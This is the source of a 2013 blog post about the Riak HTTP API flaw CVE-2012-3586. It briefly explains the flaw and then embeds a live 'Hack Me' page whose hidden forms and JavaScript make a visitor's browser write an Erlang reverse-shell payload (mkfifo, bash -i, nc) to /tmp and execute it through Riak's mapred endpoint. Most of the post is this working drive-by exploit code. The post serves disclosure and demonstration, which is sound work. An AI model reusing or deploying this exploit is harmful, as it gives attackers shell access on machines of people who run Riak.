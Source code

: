 ```yaml
---
layout: post
title: "Riak Drive by Attack"
date: 2013-09-01 21:29
comments: true
categories: 
---
```

Be careful with Riak HTTP API (CVE-2012-3586)
---------------------------------------------

This has been fixed in [Riak 1.1.4](http://lists.basho.com/pipermail/riak-users_lists.basho.com/2012-June/008635.html)

I would recommend not running the Riak HTTP API on a machine that you browse the internet on or on a machine that is reachable by machines that can browse the internet.

This is heavily based on [Aphyr’s work](http://aphyr.com/posts/224-do-not-expose-riak-directly-to-the-internet). I’ve taken his work and used it in a cross site scripting attack. When you click the attack me button your riak process will attempt to connect to localhost:6666. If you run nc -l 6666 and wait for a connection you will have a shell with the privileges of the user running riak.

The attack will perform the following actions

1. Write the value `lols=lols` to the `key i_can_run_better` in bucket `everything_you_can_run`
2. Write the value `spawn(fun() -> os:cmd("mkfifo /tmp/mypipe.$$ && cat /tmp/mypipe.$$ | /bin/bash -i 2>&1 | nc localhost 6666 > /tmp/mypipe.$$") end)` to the file `/tmp/evil.erl`
3. Evalute the contents of `/tmp/evil.erl` using the erlang function `file:path_eval`. This will cause your machine to try and open a connection to localhost:6666 that is backed by a shell running under the riak user.

By clicking ‘Hack Me’ you agree that you have reviewed the source code of this page and understand what the attack will do and will not hold the author of this page liable for any damage the attack may cause. 

Click ‘Hack Me’ below to start the attack.

{% raw %}
<iframe id='insert_record_frame' name='insert_record_frame' style='display:none;width:0px;height:0px'></iframe>


<p><form action='http://localhost:8098/riak/everything_you_can_run/i_can_run_better' id='insert_record_form' method='POST' target='insert_record_frame'>
  <input name='lols' type='hidden' value='lols' />
</form></p>

<iframe id='write_file' name='write_file' style='display:none;width:0px;height:0px'></iframe>


<p><form action='http://localhost:8098/mapred' enctype='text/plain' id='write_file_form' method='POST' target='write_file'>
  <input name='{"lolkey' type='hidden' value='":"bar","inputs":[["everything_you_can_run","i_can_run_better"]],"query":[{"map":{"language":"javascript","source":"function(v) {return [47,116,109,112,47,101,118,105,108,46,101,114,108];}"}},{"reduce":{"language":"erlang","module":"file","function":"write_file","arg":"spawn(fun() -&gt; os:cmd(\"mkfifo /tmp/mypipe.$$  &amp;&amp; cat /tmp/mypipe.$$ | /bin/bash -i 2&gt;&amp;1 | nc localhost 6666 &gt; /tmp/mypipe.$$\") end)."}}]}' />
</form></p>

<iframe id='evaluate_file' name='evaluate_file' style='display:none;width:0px;height:0px'></iframe>


<p><form action='http://localhost:8098/mapred' enctype='text/plain' id='evaluate_file_form' method='POST' target='evaluate_file'>
  <input name='{"lolkey' type='hidden' value='":"bar","inputs":[["everything_you_can_run", "i_can_run_better"]], "query":[{"map":{"language":"javascript", "source":"function(v) {return [47,116,109,112,47,101,118,105,108,46,101,114,108];}"}}, {"reduce":{"language":"erlang", "module":"file", "function":"path_eval", "arg":"/tmp/evil.erl"}}]}' />
</form>
<input id='hack_me' type='button' value='Hack Me' /></p>

<script type='text/javascript'>
  //<![CDATA[
    $("#hack_me").click(function() {
        if (confirm("You agree that you have reviewed the source code of this page and understand what the attack will do and will not hold the author of this page liable for any damage the attack may cause. ")) {
            $("#insert_record_form")[0].submit();
            setTimeout(write_file, 1000);
        }
    });
    
    function write_file() {
        $("#write_file_form")[0].submit();
        setTimeout(evaluate_file, 1000);           
    }
    
    function evaluate_file() {
        $("#evaluate_file_form")[0].submit();          
    }
  //]]>
</script>

{% endraw %}
